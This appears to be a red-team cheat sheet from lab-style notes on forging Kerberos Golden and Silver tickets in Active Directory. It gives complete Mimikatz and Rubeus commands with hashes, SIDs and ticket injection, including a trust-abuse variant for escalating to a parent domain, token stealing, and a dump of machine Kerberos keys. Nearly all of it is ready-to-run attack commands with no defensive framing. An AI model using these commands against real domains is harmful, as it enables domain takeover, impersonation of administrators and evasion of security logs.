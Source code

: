 Golden Tickets
```
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```

```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

steal_token 5060
```

## Golden Ticket that abuses bidirectional trust
```
Mimikatz.exe ”kerberos::golden /user:Administrator /domain:child.domain /sid:child-SID /sids:PARENTSID-519 /krbtgt:NTLMHASHOFKRBTGT /ptt”’

dir \\parent\c$
```
Silver Tickets
Forged for any service of the machine

|   |   |
|---|---|
|/sid:S-1-5-21-4172452648-1021989953-2368502130-1105|SID of the current user who is forging the ticket. Retrieved with `whoami /user`|
|/target:dc-mantvydas.offense.local|server hosting the attacked service for which the TGS ticket was cracked|
|/service:http|service type being attacked|
|/rc4:a87f3a337d73085c45f9416be5787d86|NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case|
|/user:beningnadmin|Forging the user name. This is the user name that will appear in the windows security logs - fun.|
|/id:1155|Forging user's RID - fun|
|/ptt|Instructs mimikatz to inject the forged ticket to memory to make it usable immediately|
```
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```


Let's say we dumped Kerberos keys from Workstation 1 from a SYSTEM Beacon.

```
Session           : Service from 0
User Name         : WKSTN-1$
Domain            : DEV
Logon Server      : (null)
Logon Time        : 10/17/2023 10:31:24 AM
SID               : S-1-5-20

	 * Username : wkstn-1$
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448

C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=

steal_token
```
